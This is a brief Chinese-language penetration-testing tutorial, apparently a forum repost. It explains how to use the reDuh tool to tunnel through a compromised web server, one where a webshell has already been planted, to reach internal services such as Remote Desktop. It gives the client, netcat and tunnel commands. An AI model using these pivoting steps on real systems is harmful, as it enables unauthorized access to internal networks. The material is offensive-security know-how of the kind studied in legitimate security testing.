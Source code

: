 # reDuh

> 原文：[https://www.zhihuifly.com/t/topic/3451](https://www.zhihuifly.com/t/topic/3451)

## reDuh 实现内网转发

### Github地址

```
https://github.com/sensepost/reDuh 
```

### 思维导图

![image](img/c7d27c90ca41b34ff49f7bceb7d2e59d.png)

### reDuh使用条件

（1）获取目标服务器webshell，且可以上传reDuh服务端对应脚本文件。

（2）知道目标服务器开放的内网端口，如远程桌面的端口是3389。

（3）目标服务器网络做了端口策略限制，只允许外部访问内网的80等特定端口。

### reDuh使用命令

（1）本地具备java环境，可以使用pentestbox自带java环境

```
java -jar reDuhClient.jar  http://somesite.com/reDuh.aspx http or https port 
```

（2）本地连接1010端口

nc -vv localhost 1010

（3）在java命令窗口执行

[createTunnel]1234:127.0.0.1:3389

（4）使用mstsc登录127.0.0.1:1234

## 参考链接

> https://blog.51cto.com/simeon/2112416